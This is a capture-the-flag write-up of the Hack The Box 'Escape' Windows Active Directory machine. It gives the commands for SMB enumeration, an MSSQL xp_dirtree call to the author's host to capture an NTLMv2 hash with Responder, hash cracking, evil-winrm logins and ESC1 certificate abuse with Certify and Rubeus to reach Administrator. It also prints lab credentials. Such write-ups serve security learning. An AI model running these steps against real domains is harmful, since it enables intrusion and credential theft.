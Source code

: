 ```yaml
---
title: Escape
date: 2023-12-21 09:45:47 +07:00
modified: 2023-12-21 09:45:47 +07:00
tags: [ Escape, Bruteforce, leak, mssql, xp_cmdshell, responder, xp_dirtree, NTLM, NTLMv2, WinRM, Evil-Winrm, BAK, ADCS, Certify, Rubeus, smb, hashcat, Windows, OSCP, Writeup]
description: Escape is a Medium difficulty Windows Active Directory machine that starts with an SMB share that guest authenticated users can download a sensitive PDF file. Inside the PDF file temporary credentials are available for accessing an MSSQL service running on the machine. An attacker is able to force the MSSQL service to authenticate to his machine and capture the hash. It turns out that the service is running under a user account and the hash is crackable. Having a valid set of credentials an attacker is able to get command execution on the machine using WinRM. Enumerating the machine, a log file reveals the credentials for the user `ryan.cooper`. Further enumeration of the machine, reveals that a Certificate Authority is present and one certificate template is vulnerable to the ESC1 attack, meaning that users who are legible to use this template can request certificates for any other user on the domain including Domain Administrators. Thus, by exploiting the ESC1 vulnerability, an attacker is able to obtain a valid certificate for the Administrator account and then use it to get the hash of the administrator user.
image: https://photos.squarezero.dev/file/abir-images/Escape/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Escape/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Escape</font>

​		25<sup>th</sup> February 2023

​		Machine Author(s): [Geiseric](https://app.hackthebox.com/users/184611)

​		

### Description:

Escape is a Medium difficulty Windows Active Directory machine that starts with an SMB share that guest authenticated users can download a sensitive PDF file. Inside the PDF file temporary credentials are available for accessing an MSSQL service running on the machine. An attacker is able to force the MSSQL service to authenticate to his machine and capture the hash. It turns out that the service is running under a user account and the hash is crackable. Having a valid set of credentials an attacker is able to get command execution on the machine using WinRM. Enumerating the machine, a log file reveals the credentials for the user `ryan.cooper`. Further enumeration of the machine, reveals that a Certificate Authority is present and one certificate template is vulnerable to the ESC1 attack, meaning that users who are legible to use this template can request certificates for any other user on the domain including Domain Administrators. Thus, by exploiting the ESC1 vulnerability, an attacker is able to obtain a valid certificate for the Administrator account and then use it to get the hash of the administrator user.   

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.11.202`

```bash
nmap -sC -sV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.202 -oA ./nmap/escape -Pn
```

|Ports|Service
|53| domain Simple DNS Plus
|88| kerberos-sec  Microsoft Windows Kerberos
|135| msrpc Microsoft Windows RPC
|139| netbios-ssn  Microsoft Windows netbios-ssn
|389| ldap  Microsoft Windows Active Directory LDAP
|445| Windows Server 2016 Standard 14393
|464| kpasswd5?
|593| ncacn_http  Microsoft Windows RPC over HTTP 1.0
|636| Microsoft Windows Active Directory LDAP
|1433| Microsoft SQL Server 2019
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Escape/1.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/2.png)

Next, I checked the SMB server where I found some shares.

`smbclient -N -L //10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/3.png)

I did some other enumeration and found nothing interesting.

# Foothold

I logged Into [Public]() Share using anonymous login and I found a PDF.

`smbclient -N //10.10.11.202/Public`

![](https://photos.squarezero.dev/file/abir-images/Escape/4.png)

Inside the PDF I found credentials to log into SQL server.

Credential -> `PublicUser : GuestUserCantWrite1`

![](https://photos.squarezero.dev/file/abir-images/Escape/5.png)

Using this credential I logged in to MSSQL server.

`mssqlclient.py 'PublicUser:GuestUserCantWrite1@10.10.11.202'`

![](https://photos.squarezero.dev/file/abir-images/Escape/6.png)

I tried to see If I could execute a command using `xp_cmdshell`` but no luck. I tried to activate it but I don't have the permissions.

`xp_cmdshell 'whoami'`

`sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
![](https://photos.squarezero.dev/file/abir-images/Escape/7.png)

I looked for databases in the server but nothing interesting.

`SELECT name FROM master.dbo.sysdatabases`

![](https://photos.squarezero.dev/file/abir-images/Escape/8.png)

I started Responder in my local machine to get an NTLMv2 response by making MSSQL server read something from my localhost.

Start Responder -> `sudo responder -vI tun0`

Read from MSSQL -> `xp_dirtree '\\10.10.14.22\myshare';`

![](https://photos.squarezero.dev/file/abir-images/Escape/9.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/10.png)

I used hashcat to crack the NTLMv2 Hash.

`hashcat -m 5600 sql_svc_hash.txt /usr/share/wordlists/rockyou.txt`

![](https://photos.squarezero.dev/file/abir-images/Escape/11.png)

Password -> `REGGIE1234ronnie`

I used [Evil-Winrm]() to login to the user but there was no flag.

`evil-winrm -u sql_svc -p 'REGGIE1234ronnie' -i 10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/12.png)

After some enumeration I found `ERRORLOG.BAK` inside `C:\SQLServer\Logs`.

![](https://photos.squarezero.dev/file/abir-images/Escape/13.png)

At the very end, we can see the credentials of Ryan.Cooper.

![](https://photos.squarezero.dev/file/abir-images/Escape/14.png)

Credential -> `Ryan.Cooper : NuclearMosquito3`

I logged in using Evil-Winrm and got the flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/15.png)



# Privilege Escalation

I tried ASREProasting and Kerberoasting but no luck

`GetNPUsers.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

`GetUserSPNs.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

![](https://photos.squarezero.dev/file/abir-images/Escape/16.png)

I had to dig deep and Found TLS certificates on port 3269 which was by sequel-DC-CA.

`openssl s_client -showcerts -connect 10.10.11.202:3269  | openssl x509 -noout -text`

![](https://photos.squarezero.dev/file/abir-images/Escape/17.png)

I uploaded [Certify.exe](https://github.com/GhostPack/Certify) to the victim machine and found the vulnerable certificate.

`.\Certify.exe find /vulnerable`

![](https://photos.squarezero.dev/file/abir-images/Escape/18.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/19.png)

We can see the Validation period is 10 years Also the owner is Administrator. There are bad permissions listed which we can abuse as well.

Let's run Certify with alt name administrator to get certification which we can later craft to abuse.

```Powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

We get an RSA key and Certificate.

```Powershell
----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAptfb4Z6gnih00wPublNRZnDeJew6dNUjnIK9G3ABXssfprGP
qy0qdSl4s71+m2YSaC/4uDhEIwcxLDhMqwlmMzmCv8QQmJyosvtAFUFxtAg+dpBU
--snip--
/PuJaiETVwdaoqNlswkMHKnR0s
LWZ3L+xYD9LCVDkKC7sgleaa7uScTURFCr5F2FctdBwXSdydtFwRCMGL4BHLpsDv
Svcn4kSdHqzoGeooLwlIi+j4J+2DOWdYwJBhDd4wpPauoLdLR1EU
-----END RSA PRIVATE KEY-----
----BEGIN CERTIFICATE-----
MIIGEjCCBPqgAwIBAgITHgAAAAuikoIHtx76ygAAAAAACzANBgkqhkiG9w0BAQsF
ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwHhcNMjMxMjIyMDkxMTUwWhcNMjUxMjIy
MDkyMTUwWjBTMRMwEQYKCZImiZPy
--snip--
ei9J2F4a+S18ZzwBww23Zg13HJSu
4gr2IESXJuevi5d3VZACMXXcUs2rV1QNeRfqZNSQHepPEqlX2XEJMCTsyT4Pzqhr
XgWWAS1a1QQe1UUrvE8dDT7auRt+yg==
-----END CERTIFICATE-----
```

We can save this in one file cert.pem and convert it to cert.pfx


```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](https://photos.squarezero.dev/file/abir-images/Escape/20.png)

Next, I upload [Rubeus](https://github.com/GhostPack/Rubeus) & [cert.pfx](). 

Now we directly include the ticket in the system or get credentials that we can use to log in via Evil-Winrm.

Option 1:
```
.\Rubeus.exe asktgt /domain:SEQUEL.HTB /user:Administrator /certificate:cert.pfx /dc:dc.SEQUEL.HTB /ptt
```

Option 2:
```
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

I used the 2nd option to get NTLM hash of the administrator.

![](https://photos.squarezero.dev/file/abir-images/Escape/21.png)

After logging in I got the root flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/22.png)



